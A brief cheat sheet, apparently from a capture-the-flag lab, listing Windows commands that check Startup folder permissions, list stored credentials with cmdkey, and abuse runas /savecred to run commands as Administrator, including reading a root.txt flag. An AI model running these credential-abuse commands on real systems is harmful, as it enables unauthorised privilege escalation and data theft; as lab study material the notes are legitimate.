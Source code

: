 #check permissions  
`icacls C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`

#show stored creds  
`cmdkey /list`
  
#runas admin  
`runas /savecred /user:Administrator "cmd.exe"`
`runas /savecred /user:Administrator "cmd.exe /c dir /b /a /s c:\users\administrator > c:\users\hacker\desktop\files.txt" `

`c:\windows\system32\runas.exe /user:ACCESS\Administrator /savecred "c:\windows\system32\cmd.exe /c TYPE c:\users\administrator\desktop\root.txt > c:\users\security\root.txt"`
